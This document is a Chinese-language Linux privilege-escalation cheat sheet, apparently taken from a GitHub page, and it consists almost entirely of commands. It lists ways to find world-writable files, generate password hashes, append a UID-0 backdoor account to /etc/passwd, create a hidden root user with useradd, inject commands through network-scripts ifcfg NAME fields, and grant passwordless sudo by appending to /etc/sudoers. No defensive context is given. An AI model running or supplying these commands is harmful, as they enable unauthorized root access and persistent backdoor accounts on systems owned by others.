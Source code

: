  #### 列出系统中可写文件
  	>find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
	>find / -perm -2 -type f 2>/dev/null
	>find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
 #### passwd文件
	$ls –lh /etc/passwd 若是任何用户可读写
	$perl -le 'print crypt("password@123","addedsalt")' 生成密码或php -r "print(crypt('aarti','123') . \"\n\");"或python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'
	$echo "test:advwtv/9yU5yQ:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd
	一条命令添加root用户
	>useradd -p `openssl passwd -1 -salt 'user' 123qwe` -u 0 -o -g root  -G root -s /bin/bash -d /home/user venus
	用户名venus 密码123qwe
	>useradd newuser;echo "newuser:password"|chpasswd
	>echo "admin:x:0:0::/:/bin/sh" >> /etc/passwd
	>passwd admin修改密码
	或
	>useradd newuser;echo "newuser:password"|chpasswd
	>useradd -p `openssl passwd 123456` guest
	>useradd -p "$(openssl passwd 123456)" guest
	>useradd newuwer;echo -e "123456\n123456\n" |passwd newuser
 #### /etc/sysconfig/network-scripts/
  	NAME=Network /bin/id  &lt;= 注意空格
	ONBOOT=yes
	DEVICE=eth0

	EXEC :
	./etc/sysconfig/network-scripts/ifcfg-1337
 #### sudoers
  	echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

	无需密码使用sudo
	echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
	echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers